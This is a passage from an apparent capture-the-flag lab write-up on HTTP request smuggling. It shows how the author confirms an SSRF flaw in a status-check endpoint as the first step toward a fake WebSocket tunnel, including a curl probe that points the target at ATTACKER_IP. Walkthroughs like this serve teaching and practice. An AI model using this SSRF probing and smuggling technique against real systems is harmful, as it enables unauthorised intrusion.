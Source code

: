 ![Login form](ctf_elbandito_80_signin.png)

## Establishing a fake WebSocket tunnel via SSRF

Knowing that the room is about HTTP smuggling, I was confident that I needed to [establish a fake WebSocket tunnel](https://github.com/0ang3el/websocket-smuggle). First, we need to trick the server to think that WebSocket service responds with 101 code. For that, I confirmed SSRF vulnerability in the status check API:

```bash
$ curl -ksi 'http://MACHINE_IP:8080/isOnline?url=http://ATTACKER_IP:8000'
HTTP/1.1 200 
Server: nginx
Date: Thu, 06 Mar 2025 21:57:55 GMT
Content-Type: text/plain
Content-Length: 0
Connection: keep-alive
X-Application-Context: application:8081

```
